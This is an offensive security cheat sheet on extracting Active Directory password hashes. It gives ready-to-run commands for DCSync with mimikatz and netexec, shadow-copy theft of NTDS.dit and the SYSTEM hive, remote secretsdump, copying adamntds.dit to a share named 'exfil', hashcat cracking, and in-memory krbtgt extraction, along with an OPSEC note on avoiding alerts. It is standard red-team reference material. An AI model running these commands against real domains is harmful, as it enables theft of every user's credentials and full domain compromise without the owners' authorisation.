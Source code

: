 # Active Directory - NTDS Dumping

You will need the following files to extract the ntds : 
- NTDS.dit file
- SYSTEM hive (`C:\Windows\System32\SYSTEM`)

Usually you can find the ntds in two locations : `systemroot\NTDS\ntds.dit` and `systemroot\System32\ntds.dit`.

- `systemroot\NTDS\ntds.dit` stores the database that is in use on a domain controller. It contains the values for the domain and a replica of the values for the forest (the Configuration container data).
- `systemroot\System32\ntds.dit` is the distribution copy of the default directory that is used when you install Active Directory on a server running Windows Server 2003 or later to create a domain controller. Because this file is available, you can run the Active Directory Installation Wizard without having to use the server operating system CD.

However you can change the location to a custom one, you will need to query the registry to get the current location.

```powershell
reg query HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v "DSA Database file"
```

## DCSync Attack

DCSync is a technique used by attackers to obtain sensitive information, including password hashes, from a domain controller in an Active Directory environment. Any member of Administrators, Domain Admins, or Enterprise Admins as well as Domain Controller computer accounts are able to run DCSync to pull password data. 

* DCSync only one user
  ```powershell
  mimikatz# lsadump::dcsync /domain:htb.local /user:krbtgt
  ```
* DCSync all users of the domain
  ```powershell
  mimikatz# lsadump::dcsync /domain:htb.local /all /csv

  netexec smb 10.10.10.10 -u 'username' -p 'password' --ntds
  netexec smb 10.10.10.10 -u 'username' -p 'password' --ntds drsuapi
  ```

> :warning: OPSEC NOTE: Replication is always done between 2 Computers. Doing a DCSync from a user account can raise alerts.


## Volume Shadow Copy

The VSS is a Windows service that allows users to create snapshots or backups of their data at a specific point in time. Attackers can abuse this service to access and copy sensitive data, even if it is currently being used or locked by another process.

* [windows-commands/vssadmin](https://learn.microsoft.com/fr-fr/windows-server/administration/windows-commands/vssadmin)
  ```powershell
  vssadmin create shadow /for=C:
  copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ShadowCopy
  copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\ShadowCopy
  ```
* [windows-commands/ntdsutil](https://learn.microsoft.com/fr-fr/troubleshoot/windows-server/identity/use-ntdsutil-manage-ad-files)
  ```powershell
  ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q
  ```
* [netexec VSS module](https://wiki.porchetta.industries/smb-protocol/obtaining-credentials/dump-ntds.dit)
  ```powershell
  nxc smb 10.10.0.202 -u username -p password --ntds vss
  ```


## Extract hashes from ntds.dit

then you need to use [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) to extract the hashes, use the `LOCAL` options to use it on a retrieved ntds.dit

```java
secretsdump.py -system /root/SYSTEM -ntds /root/ntds.dit LOCAL
```

[secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) also works remotely

```java
./secretsdump.py -dc-ip IP AD\administrator@domain -use-vss -pwd-last-set -user-status 
./secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:0f49aab58dd8fb314e268c4c6a65dfc9 -just-dc PENTESTLAB/dc\$@10.0.0.1
```

* `-pwd-last-set`: Shows pwdLastSet attribute for each NTDS.DIT account.
* `-user-status`: Display whether or not the user is disabled.


## Extract hashes from adamntds.dit

In AD LDS stores the data inside a dit file located at `C:\Program Files\Microsoft ADAM\instance1\data\adamntds.dit`.

* Dump adamntds.dit with Shadow copy using `vssadmin.exe`
    ```ps1
    vssadmin.exe create shadow /For=C:
    cp "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyX\Program files\Microsoft ADAM\instance1\data\adamntds.dit" \\exfil\data\adamntds.dit
    ```

* Dump adamntds.dit with Windows Server Backup using `wbadmin.exe`
    ```ps1
    wbadmin.exe start backup -backupTarget:e: -vssCopy -include:"C:\Program Files\Microsoft ADAM\instance1\data\adamntds.dit"
    wbadmin.exe start recovery -version:08/04/2023-12:59 -items:"c:\Program Files\Microsoft ADAM\instance1\data\adamntds.dit" -itemType:File -recoveryTarget:C:\Users\Administrator\Desktop\ -backupTarget:e:
    ```

* Extract hashes with [synacktiv/ntdissector](https://github.com/synacktiv/ntdissector)
    ```ps1
    ntdissector path/to/adamntds.dit
    python ntdissector/tools/user_to_secretsdump.py path/to/output/*.json
    ```


## Crack NTLM hashes with hashcat

Useful when you want to have the clear text password or when you need to make stats about weak passwords.

Recommended wordlists:
- [Rockyou.txt](https://weakpass.com/wordlist/90)
- [Have I Been Pwned founds](https://hashmob.net/hashlists/info/4169-Have%20I%20been%20Pwned%20V8%20(NTLM))
- [Weakpass.com](https://weakpass.com/)
- Read More at [Methodology and Resources/Hash Cracking.md](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/hash-cracking/)

```powershell
# Basic wordlist
# (-O) will Optimize for 32 characters or less passwords
# (-w 4) will set the workload to "Insane" 
$ hashcat64.exe -m 1000 -w 4 -O -a 0 -o pathtopotfile pathtohashes pathtodico -r myrules.rule --opencl-device-types 1,2

# Generate a custom mask based on a wordlist
$ git clone https://github.com/iphelix/pack/blob/master/README
$ python2 statsgen.py ../hashcat.potfile -o hashcat.mask
$ python2 maskgen.py hashcat.mask --targettime 3600 --optindex -q -o hashcat_1H.hcmask
```

:warning: If the password is not a confidential data (challenges/ctf), you can use online "cracker" like :

- [hashmob.net](https://hashmob.net)
- [crackstation.net](https://crackstation.net)
- [hashes.com](https://hashes.com/en/decrypt/hash)


## NTDS Reversible Encryption

`UF_ENCRYPTED_TEXT_PASSWORD_ALLOWED` ([0x00000080](http://www.selfadsi.org/ads-attributes/user-userAccountControl.htm)), if this bit is set, the password for this user stored encrypted in the directory - but in a reversible form.

The key used to both encrypt and decrypt is the SYSKEY, which is stored in the registry and can be extracted by a domain admin.
This means the hashes can be trivially reversed to the cleartext values, hence the term “reversible encryption”.

* List users with "Store passwords using reversible encryption" enabled
    ```powershell
    Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
    ```

The password retrieval is already handled by [SecureAuthCorp/secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) and mimikatz, it will be displayed as CLEARTEXT. 


## Extract hashes from memory

Dumps credential data in an Active Directory domain when run on a Domain Controller.

:warning: Requires administrator access with debug privilege or NT-AUTHORITY\SYSTEM account.

```powershell
mimikatz> privilege::debug
mimikatz> sekurlsa::krbtgt
mimikatz> lsadump::lsa /inject /name:krbtgt
```


## References

* [Diskshadow The Return Of VSS Evasion Persistence And AD Db Extraction - bohops - March 26, 2018](https://bohops.com/2018/03/26/diskshadow-the-return-of-vss-evasion-persistence-and-active-directory-database-extraction/)
* [Dumping Domain Password Hashes - Pentestlab - July 4, 2018](https://pentestlab.blog/2018/07/04/dumping-domain-password-hashes/)
* [Using Ntdissector To Extract Secrets From Adam Ntds Files - Julien Legras, Mehdi Elyassa - 06/12/2023](https://www.synacktiv.com/publications/using-ntdissector-to-extract-secrets-from-adam-ntds-files)